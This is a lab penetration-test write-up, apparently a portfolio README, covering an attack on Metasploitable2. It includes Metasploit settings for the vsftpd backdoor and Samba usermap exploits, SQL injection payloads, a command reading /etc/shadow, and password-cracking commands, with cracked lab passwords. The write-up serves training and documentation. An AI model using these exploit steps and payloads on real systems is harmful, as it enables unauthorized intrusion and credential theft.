# Metasploitable2 — Internal Network Penetration Test

A full-cycle internal network penetration test performed against Metasploitable2 in an isolated VMware lab environment. Covers reconnaissance, enumeration, exploitation, and post-exploitation following PTES methodology.

---

## Lab Environment

| Component | Details |
|-----------|---------|
| Attacker | Kali Linux 2024.3 (192.168.5.130) |
| Target | Metasploitable2 (192.168.5.129) |
| Network | VMware Host-Only — Fully Isolated |
| Methodology | PTES (Penetration Testing Execution Standard) |

---

## Attack Flow

Network Discovery → Full Port Scan → Service Enumeration → Vulnerability Identification → Exploitation → Post-Exploitation → Password Cracking

---

## Findings Summary

| ID | Vulnerability | CVE | Severity | Result |
|----|--------------|-----|----------|--------|
| F-01 | vsftpd 2.3.4 Backdoor | CVE-2011-2523 | Critical | Remote Root Shell |
| F-02 | Samba Username Map Script | CVE-2007-2447 | Critical | Remote Root Shell |
| F-03 | DVWA SQL Injection | OWASP A03:2021 | Critical | Full DB Dump + Hash Theft |
| F-04 | MySQL Empty Root Password | N/A | High | Full DB Access |
| F-05 | Anonymous FTP Login | N/A | High | Unauthenticated File Access |
| F-06 | SNMP Default Community String | N/A | Medium | System Info Disclosure |

---

## Phase 1 — Reconnaissance

### Connectivity Check
```bash
ping 192.168.5.129 -c 4
```





### Detailed Service Scan
```bash
sudo nmap -sV -sC -p 21,22,23,25,80,139,445,3306,3632,5432,6667,8180 -O 192.168.5.129
```





### NSE Vulnerability Scan
```bash
sudo nmap --script vuln 192.168.5.129
```





---

## Phase 2 — Enumeration

### SMB Enumeration
```bash
enum4linux -a 192.168.5.129
```





### Web Application Scan
```bash
nikto -h http://192.168.5.129
```





---

## Phase 3 — Exploitation

### F-01: vsftpd 2.3.4 Backdoor (CVE-2011-2523)
**Impact:** Unauthenticated remote root shell via FTP backdoor

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.5.129
run
```





---

### F-02: Samba Username Map Script (CVE-2007-2447)
**Impact:** Unauthenticated remote root shell via SMB

```bash
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.5.129
set LHOST 192.168.5.130
run
```





---

### F-03: DVWA SQL Injection
**Impact:** Full database dump including password hashes

```
Payload 1: ' OR '1'='1
Payload 2: ' UNION SELECT user, password FROM users -- -
```








---

## Phase 4 — Post-Exploitation

### Credential Dumping
```bash
cat /etc/shadow
```





### Password Cracking — John the Ripper
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt /tmp/shadow.txt
```





**Cracked accounts:**
- klog : 123456789
- sys : batman
- service : service

### Hash Cracking — Hashcat
```bash
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt --show
```





---

## Tools Used

| Tool | Purpose |
|------|---------|
| Nmap | Port scanning, service detection, NSE scripts |
| Metasploit | Exploitation framework |
| enum4linux | SMB enumeration |
| Nikto | Web vulnerability scanning |
| Hashcat | MD5 hash cracking |
| John the Ripper | Shadow file cracking |

---

## Report

Full penetration test report with methodology, evidence, findings, and remediation available in [`report/`](report/)

---

## Disclaimer

This project was performed in a **controlled, isolated VMware lab environment** for educational and portfolio purposes only. Do not attempt to exploit systems without explicit written authorization.

---

**Prince Dubey**  
eJPT Certified | TryHackMe Top 8% | Bug Bounty Hunter  
[GitHub](https://github.com/princephantom-cm)